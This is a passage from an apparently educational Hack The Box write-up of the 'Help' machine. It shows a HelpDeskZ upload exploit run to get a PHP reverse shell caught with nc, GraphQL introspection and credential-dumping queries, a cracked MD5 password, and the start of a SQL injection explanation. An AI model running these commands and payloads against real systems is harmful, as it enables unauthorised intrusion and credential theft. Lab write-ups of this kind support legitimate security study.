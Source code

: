 ```
python 40300.py http://help.htb/support/uploads/tickets/ php-reverse-shell.php
```
the 'uploads/' folder can be guessed by simply looking at the directory structure in the [helpdeskz GitHub Repo](https://github.com/evolutionscript/HelpDeskZ-1.0).
```
root@kali:~/Documents/HTB/Boxes/Help# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.121] 35756
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 03:24:25 up 1 day, 13:41,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
help     pts/0    10.10.14.9       01:45    1:23m  0.02s  0.02s -bash
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$
```
when the the file gets hitted (found) we get the reverse shell as user help.

### Method 2 - Inferential SQL Injection php/webapps/41200.py
To take advantage of this vulnerability, we'll need to find credentials for access helpdeskz, so, let's start digging into port 3000.  
as we open the site, we can see the following message:
```
Hi Shiv, To get access please find the credentials with given query
```
since we know that this is nodeJS from the initial nmap enumeration, we can search on google a string like:  
```
express language query node
```
And as we can see, lots of graphql links pop up.  
Now that we know that this is graphql, we can try to search some resources that guide us in querying the service.  
Without searching too much wi can find thi guide [here](https://book.hacktricks.xyz/pentesting/pentesting-web/graphql). So let's dig into the service.
First thing, as always, we need to enumerate the schema with:
```
http://help.htb:3000/graphql?query={__schema{types{name,fields{name,%20args{name,description,type{name,%20kind,%20ofType{name,%20kind}}}}}}}
```
once we have the schema, we can query for username and password attributes:
```
http://help.htb:3000/graphql?query={user{username,password}}
```
And we do get the following response:
```
{"data":{"user":{"username":"helpme@helpme.com","password":"5d3c93182bb20f07b994a7f617e99cff"}}}
```
since the given hash is 32 characters:
```
[root@kali exploits ]$ echo "5d3c93182bb20f07b994a7f617e99cff" |wc -c
33
```
we can assume this is md5, so we can search for the digest on google and see if there is any calculation for that.  
Without too much effort, we can see open the first result and see [here](https://md5hashing.net/hash/md5/5d3c93182bb20f07b994a7f617e99cff) and see that the password is 'godhelpmeplz'.
Now with the given password, we can proceed with php/webapps/41200.py exploit.
As we can read in the author's exploit, there is an 'inferential' SQL injection vulnerability on helpdeskz 1.0.2.  
The term 'Inferential' means that we can enumerate the database only by having boolean-based responses.  